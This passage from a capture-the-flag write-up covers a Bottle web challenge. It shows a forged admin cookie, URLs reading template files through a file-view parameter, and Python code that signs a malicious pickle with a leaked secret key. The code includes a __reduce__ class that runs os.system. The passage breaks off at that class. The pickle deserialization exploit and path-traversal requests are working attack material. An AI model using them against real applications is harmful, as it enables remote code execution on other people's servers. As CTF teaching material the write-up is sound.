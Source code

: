 `!rsOwvUb6jllVHQVOPlZv5w==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFYWRtaW6Uc4aULg==`
But when we try to login to the /sign page, it tells us:

```Hello, you are admin, but it’s useless. ```
So, we have to look at something else…

# Searching for another vulnerability

Bottle uses the SimpleTemplate templatig engine and we haven’t looked at the template files yet. Looking at the bottle docs tells us that the default search path is the views/ folder and templates have either a .tpl, .html or no extension):
`
http://ch681363157615.ch.eng.run/show?id=/app/views/index.html
http://ch681363157615.ch.eng.run/show?id=/app/views/guest.html
http://ch681363157615.ch.eng.run/show?id=/app/views/admin.html
`
I didn’t find anything in the template files, so I decided to dive deeper into the cookies.
 
# Pickle RCE

Looking at the relevent bottle source code, we find out they use pickle to serialize the data within the cookie!

We now know the cookie structure:

```"!<base64 encoded hmac>?<base64 encoded pickle blob that contains cookie name & value>"```

The pickle module allows us to abuse a deserialization RCE vulnerability. Since we can forge cookie contents by using the leaked secret key, we can actually exploit this!

To create a malicious cookie, we reuse some code from the bottle framework and add our RCE exploit:
```
import os, hmac, hashlib, base64, pickle

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_cookie(name, value, secret):
    encoded = base64.b64encode(pickle.dumps([name, value], -1))
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.sha256).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,("ls",))
